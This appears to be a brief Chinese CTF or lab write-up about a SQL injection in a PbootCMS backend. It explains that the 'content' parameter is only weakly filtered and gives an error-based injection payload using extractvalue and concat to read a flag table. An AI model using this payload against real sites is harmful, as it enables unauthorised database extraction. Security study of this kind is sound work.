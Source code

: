 ![Content_hole_415](img/Content_hole_415.png)

其中：

```php
$description = mb_substr(strip_tags($_POST['content']), 0, 150);
```

仅对传入的  `content`  参数使用了 `strip_tags` 和 `mb_substr` 过滤，因此 `$content` 存在 `SQL` 注入。

**报错注入** 可以拿到数据库中的 flag：

> 如果使用 select (extractvalue(1,(database())))； 在 1 中查询不到 database() 的结果，但是因为没有语法错误，所以不会报错。
>
> 用 `concat` 函数拼接一个错误的 Xpath 让数据库报错得到包含查询值的字符串。

 **因此设计 POC 如下**：

```shell
testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from pbootcms.ay_aFlag)))) or ' 
```

因为漏洞设计在后台，所以要绕过后台登录。

